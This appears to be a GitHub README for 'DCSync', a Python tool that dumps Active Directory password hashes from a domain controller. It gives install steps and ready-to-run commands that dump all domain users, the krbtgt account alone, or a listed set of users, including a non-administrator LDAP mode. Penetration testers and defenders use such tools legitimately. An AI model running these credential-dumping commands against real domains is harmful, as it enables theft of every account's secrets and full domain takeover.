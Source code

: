 ```
 ┓       
┏┫┏┏┓┏┏┓┏
┗┻┗┛┗┫┛┗┗
     ┛   
```

<p align="center">
    A python script for dumping domain users secrets using DCSync method.
    <br>
    <img alt="PyPI" src="https://img.shields.io/pypi/v/DCSync">
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/AetherBlack/DCSync">
    <a href="https://twitter.com/intent/follow?screen_name=san__yohan" title="Follow"><img src="https://img.shields.io/twitter/follow/san__yohan?label=Aether&style=social"></a>
    <br>
</p>

## Installation

You can install it from pypi (latest version is <img alt="PyPI" src="https://img.shields.io/pypi/v/DCSync">) with this command:

```bash
sudo python3 -m pip install dcsync
```

OR from source :

```bash
git clone https://github.com/AetherBlack/DCSync
cd DCSync
python3 -m venv .
source bin/activate
python3 -m pip install .
```

OR with pipx :

```bash
python3 -m pipx install git+https://github.com/AetherBlack/DCSync/
```

## Examples

- You want to DCSync the whole domain with Administrator privilegies :

```bash
dcsync $DOMAIN/$USER:"$PASSWORD"@$DC
```

![](./docs/img/1.png)

- You want to DCSync for a single principal :

```bash
dcsync -just-user krbtgt -k $DOMAIN/$USER:"$PASSWORD"@$DC
```

![](./docs/img/2.png)

- You want to DCSync the whole domain without Administrator privilegies using ldap method :

```bash
dcsync -method ldap $DOMAIN/$USER:"$PASSWORD"@$DC
```

![](./docs/img/3.png)

You can use this methods :

```
samr (Default)
ldap
file
```

- You want to DCSync only a list of specific principals :

```bash
dcsync -just-user-file ./usersfile.txt $DOMAIN/$USER:"$PASSWORD"@$DC
```

![](./docs/img/4.png)

## How it works

The tool will use the provided method to enumerate the users of the domain. Then, it will connect to the DC's RPC to dump their NT hash, LM hash, AES hash and history hash.

---

## Credits

- [@fortra](https://github.com/fortra/) for developping [impacket](https://github.com/fortra/impacket)

## License

[GNU General Public License v3.0](./LICENSE)
